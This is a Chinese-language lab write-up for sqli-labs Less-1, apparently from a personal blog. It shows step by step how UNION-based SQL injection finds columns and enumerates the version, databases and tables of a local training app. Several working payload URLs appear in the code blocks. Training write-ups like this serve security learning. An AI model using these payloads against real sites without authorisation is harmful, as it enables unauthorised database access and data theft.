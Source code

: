 ```yaml
---
title: sqli-labs通关笔记
---
```


# sqli-labs通关笔记

## union注入

### Sqli-labs-Less-1

根据[我的上篇文章](https://www.zhiji.icu/2021/03/06/qian-tan-sql-zhu-ru/)中的技巧可轻松判断注入类型，为字符型注入

当我们使用?id=1’时报错，说明存在注入点

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p1-11.png)

使用order by 查看字段数量

使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3

查看哪些数据可以回显
将?id=1改为?id=-1 或者其它不存在的值，使用union注入

```sql
http://127.0.0.1/SQL1/Less-1/?id=-1' union select 1,2,3--+
```

可以看到2，3发生回显，确定注入点为2，3，直接在2的位子输入sql语句进行注入查询

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p1-12.png)

查看版本和数据库名

```sql
http://127.0.0.1/SQL1/Less-1/?id=-1' union select 1,version(),database()--+
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p1-3.png)

查看数据库（group_concat()将查询的字段数合并一起输出）

```sql
http://127.0.0.1/SQL1/Less-1/?id=-1' union select 1,2,group_concat(schema_name)  from information_schema.schemata--+
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p1-13.png)

这里我们已经查询到security数据库，下面继续查询security库里面的表

```sql
http://127.0.0.1/SQL1/Less-1/?id=-1' union select 1,2,group_concat(table_name)  from information_schema.tables where table_schema='security'--+
```
